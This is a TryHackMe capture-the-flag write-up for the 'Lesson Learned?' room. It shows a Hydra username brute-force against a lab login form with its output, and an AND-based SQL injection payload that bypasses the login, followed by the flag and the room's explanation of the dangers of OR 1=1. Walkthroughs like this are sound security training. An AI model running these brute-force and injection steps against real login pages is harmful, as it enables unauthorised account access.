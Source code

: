 ## Lesson Learned? - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/lessonlearned)

<i>This is a relatively easy machine that tries to teach you a lesson, but perhaps you've already learned the lesson? Let's find out.

Treat this box as if it were a real target and not a CTF.

Get past the login screen and you will find the flag. There are no rabbit holes, no hidden files, just a login page and a flag. Good luck!</i>

**IP: 10.10.55.184**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Authentication Bypass <br>

**Tools Used**: Hydra<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Brute forcing and SQL Injection

- So, I learned my lesson. I tried SQLI multiple times before brute forcing and had to reset the room few times. First brute force the username for login page. Before using Hydra, capture the request with Burp and failed attempt message.

  ```
  Invalid username and password.

  POST / HTTP/1.1
  Host: 10.10.55.184
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 29
  Origin: http://10.10.55.184
  Connection: keep-alive
  Referer: http://10.10.55.184/
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  
  username=admin&password=admin
  ```


  ```
  hydra -L /seclists/Usernames/xato-net-10-million-usernames.txt -p qwerty 10.10.55.184 http-post-form "/:username=^USER^&password=^PW^:F=Invalid username and password"
  Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
  
  Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-25 22:50:45
  [DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
  [DATA] attacking http-post-form://10.10.55.184:80/:username=^USER^&password=^PW^:F=Invalid username and password
  [80][http-post-form] host: 10.10.55.184   login: martin   password: qwerty
  [80][http-post-form] host: 10.10.55.184   login: patrick   password: qwerty
  [80][http-post-form] host: 10.10.55.184   login: stuart   password: qwerty
  [80][http-post-form] host: 10.10.55.184   login: marcus   password: qwerty
  [80][http-post-form] host: 10.10.55.184   login: kelly   password: qwerty
  [80][http-post-form] host: 10.10.55.184   login: arnold   password: qwerty
  [80][http-post-form] host: 10.10.55.184   login: Martin   password: qwerty
  [80][http-post-form] host: 10.10.55.184   login: karen   password: qwerty
  [80][http-post-form] host: 10.10.55.184   login: Patrick   password: qwerty
  ```
  
- Now try to login with any of these usernames and you will receive the message `Invalid password.`. So now, we do SQLI. Since I learned my lesson to not use OR operator, we will use AND operator and get the flag.

  ```
  karen' AND '1'='1' -- -
  test
  
  THM{aab02c6b76bb752456a54c80c2d6fb1e}
  Well done! You bypassed the login without deleting the flag!
  If you're confused by this message, you probably didn't even try an SQL injection using something like OR 1=1. Good for you, you didn't need to learn the lesson.
  For everyone else who had to reset the box...lesson learned?
  Using OR 1=1 is risky and should rarely be used in real world engagements. Since it loads all rows of the table, it may not even bypass the login, if the login expects only 1 row to be returned.
  Loading all rows of a table can also cause performance issues on the database. However, the real danger of OR 1=1 is when it ends up in either an UPDATE or DELETE statement, since it will cause the modification or deletion of every row.
  For example, consider that after logging a user in, the application re-uses the username input to update a user's login status: UPDATE users SET online=1 WHERE username='<username>';
  A successful injection of OR 1=1 here would cause every user to appear online. A similar DELETE statement, possibly to delete prior session data, could wipe session data for all users of the application.
  Consider using AND 1=1 as an alternative, with a valid input (in this case a valid username) to test / confirm SQL injection. 
  ```
  
- I LEARNED MY LESSON!

---

## 🏁 Flags

- **Flag**: `THM{aab02c6b76bb752456a54c80c2d6fb1e}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Nothing.`

- What did I learn?
  `I learned my lesson!`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
